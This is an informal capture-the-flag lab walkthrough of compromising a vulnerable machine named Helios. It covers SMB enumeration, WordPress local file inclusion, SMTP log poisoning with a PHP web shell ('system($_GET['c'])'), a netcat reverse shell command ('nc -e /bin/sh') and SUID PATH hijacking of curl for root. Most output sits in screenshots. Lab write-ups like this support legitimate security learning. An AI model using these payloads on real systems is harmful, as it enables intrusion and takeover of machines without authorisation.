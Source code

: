 **IP of the machine :- 192.168.122.11**

![](attachment/c848924d6d0229bd3ab93a11f1c722dc.png)
machine on!!!!!

![](attachment/01043f32e8b81eec8b38c0a3a6afbe6e.png)
smtp and smb is running...... that's interesting!!!!

![](attachment/36cd7b0a3c2951fbb36bdf6d0b89f63b.png)
did a script scan to learn about the versions running.

![](attachment/9f5cbadb905596019cfe95a085eb9a84.png)
gobuster scan results.

![](attachment/30a4ab93d55986cdcd84f6dcb292fac8.png)
Found SMB shares and a possible username named "Helios"

![](attachment/278ffd883af44db92f7ce3a16ba84cab.png)
got a file in anonymous share "attention.txt"

![](attachment/03c717bdac6bfb44738a0fc6869802ef.png)
got some possible passwords.

![](attachment/a3dd99ed9924e89a6b107eaa1d053de6.png)
got two more possible files and pass was "qwerty"

![](attachment/e443697af430acb5e2e841c027b530f7.png)
![](attachment/efc01b0a94c4a1f5976c9dfbea91ec9a.png)
let's see /h3li05

![](attachment/051d93226e058051ac7f492ac443067c.png)
got wordpress let's run wpscan.

![](attachment/72aa12ca6876bb602749c3d00e9ffb56.png)
found an uplods directory for local file inclusion.

![](attachment/c99166d1f64788f9453a6634557c329f.png)
found this in uploads directory.....................

![](attachment/738b4fd3af150a8a13a73460f7059a8a.png)
will be using this exploit.....................

![](attachment/1ec064718cad183fbe4b1451b6374821.png)
was able to see the /etc/passwd and found username "helios"

![](attachment/bfb4e864f265aa0cd805da965bd167a7.png)
connected to the smtp server added this pup exploit to execute os commands and get a reverse shell into the system.

![](attachment/7dbbb46fa682bfc390edc7d4f8b860ff.png)
will be using this exploit to gain reverse shell.

![](attachment/1144d4b530b432e31ca53998836e68b5.png)
Now went to /var/mail/helios directory where we can execute our os commands and we also execute command id command with it by querying using 'c' parameter which we added when connected to smtp server using telnet "`<?php system($_GET['c']); ?>`".

now we can add c=nc -e /bin/sh 192.168.122.11 9999 to get a reverse shell in the mail directory of the user helios.

![](attachment/be7a462be5e15b3c855872e3d0d5e6b5.png)
Got reverse shell......

![](attachment/03b4da9ba5a595971f7399dfbd120382.png)
Found a strange SUID file "/opt/statuscheck"

![](attachment/b5a1187742b0850c4b4defa6e066011b.png)
Did strings on the file because it was a binary and found that it is using curl.

![](attachment/3568913d500ac9d5ee8addc571b09399.png)
so added a shell in curl and did 777 permission on the curl and added directory in the PATH env variable, which means we can execute file in /tmp directory and when the file is ran which suid permissions the curl command will run and has read, write and exec. permission by all three and it will lead to vertical priv. esc.

![](attachment/72abe9cb146703615428d34b560c94d3.png)